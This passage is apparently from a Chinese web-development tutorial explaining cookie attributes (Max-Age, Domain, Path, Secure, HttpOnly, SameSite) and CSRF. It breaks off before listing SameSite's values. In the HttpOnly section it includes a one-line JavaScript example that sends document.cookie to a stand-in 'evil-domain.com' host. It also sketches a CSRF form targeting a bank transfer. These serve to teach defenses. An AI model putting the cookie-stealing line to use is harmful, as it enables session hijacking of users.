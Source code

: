 `Max-Age`属性指定从现在开始 `Cookie` 存在的秒数，比如`60 * 60 * 24 * 365`（即一年）。过了这个时间以后，浏览器就不再保留这个 `Cookie`。

如果同时指定了`Expires`和`Max-Age`，那么Max-Age的值将优先生效。

如果`Set-Cookie`字段没有指定`Expires`或`Max-Age`属性，那么这个 `Cookie` 就是 `Session` Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 `Cookie`。

### 3.2 Domain，Path
`Domain`属性指定浏览器发出 `HTTP` 请求时，哪些域名要附带这个 `Cookie`。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 `Cookie`。比如，`example.com`不设置 `Cookie` 的domain属性，那么`sub.example.com`将不会附带这个 Cookie。如果指定了domain属性，那么子域名也会附带这个 `Cookie`。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 `Cookie`。

`Path`属性指定浏览器发出 `HTTP` 请求时，哪些路径要附带这个 `Cookie`。只要浏览器发现，Path属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，PATH属性是/，那么请求/docs路径也会包含该 Cookie。当然，前提是域名必须一致。

### 3.3 Secure，HttpOnly
`Secure`属性指定浏览器只有在加密协议 `HTTPS` 下，才能将这个 `Cookie` 发送到服务器。另一方面，如果当前协议是 `HTTP`，浏览器会自动忽略服务器发来的`Secure`属性。该属性只是一个开关，不需要指定值。如果通信是 `HTTPS` 协议，该开关自动打开。

`HttpOnly`属性指定该 `Cookie` 无法通过 `JavaScript` 脚本拿到，主要是`document.cookie`属性、`XMLHttpRequest`对象和 `Request API` 都拿不到该属性。这样就防止了该 `Cookie` 被脚本读到，只有浏览器发出 `HTTP` 请求时，才会带上该 `Cookie`。
```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 `Cookie` 发往第三方服务器。如果设置了一个 `Cookie` 的`HttpOnly`属性，上面代码就不会读到该 `Cookie`。

### 3.4 SameSite
Chrome 51 开始，浏览器的 `Cookie` 新增加了一个`SameSite`属性，用来防止 `CSRF` 攻击和用户追踪。

`Cookie` 往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 `Cookie` 的 `HTTP` 请求，这就是 `CSRF` 攻击。举例来说，用户登陆了银行网站`your-bank.com`，银行服务器发来了一个 `Cookie`。
```js
Set-Cookie:id=a3fWa;
```
用户后来又访问了恶意网站`malicious.com`，上面有一个表单。
```html
<form action="your-bank.com/transfer" method="POST">
  ...
</form>
```
用户一旦被诱骗发送这个表单，银行网站就会收到带有正确 `Cookie` 的请求。为了防止这种攻击，表单一般都带有一个随机 `token`，告诉服务器这是真实请求。
```html
<form action="your-bank.com/transfer" method="POST">
  <input type="hidden" name="token" value="dad3weg34">
  ...
</form>
```
这种第三方网站引导发出的 `Cookie`，就称为第三方 Cookie。它除了用于 `CSRF` 攻击，还可以用于用户追踪。比如，Facebook 在第三方网站插入一张看不见的图片。
```html
<img src="facebook.com" style="visibility:hidden;">
```
浏览器加载上面代码时，就会向 `Facebook` 发出带有 `Cookie` 的请求，从而 `Facebook` 就会知道你是谁，访问了什么网站。

`Cookie` 的SameSite属性用来限制第三方 `Cookie`，从而减少安全风险。它可以设置三个值。
